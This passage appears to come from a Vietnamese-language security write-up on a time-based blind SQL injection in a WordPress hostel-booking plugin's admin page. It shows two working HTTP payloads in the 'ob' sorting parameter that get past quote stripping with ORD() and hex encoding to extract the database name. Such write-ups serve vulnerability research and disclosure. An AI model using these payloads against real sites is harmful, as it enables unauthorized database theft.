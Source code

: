 Kết quả: thời gian phản hồi bị delay => SQL Injection thành công.

### Dump Data from Database

**Bypass `'` using ORD()**:

Để dump dữ liệu của database ta cần thử để lấy ký tự đầu tiên của **database name**.

Do `sanitize_text_field()` loại bỏ `'`, ta không dùng được payload so sánh trực tiếp. Thay vào đó dùng `ORD()` để so sánh ký tự theo ASCII:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```
Thành công bypass => có thể trích xuất tên database.

![ORD bypass](ord_bypass.png "ORD bypass")

**Bypass `'` using Hex encoding (extend)**

Ngoài `ORD()` ta có thể sử dụng **Hex encoding** để bypass

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

![Hex encoding bypass](ord_bypass.png "Hex encoding bypass")

---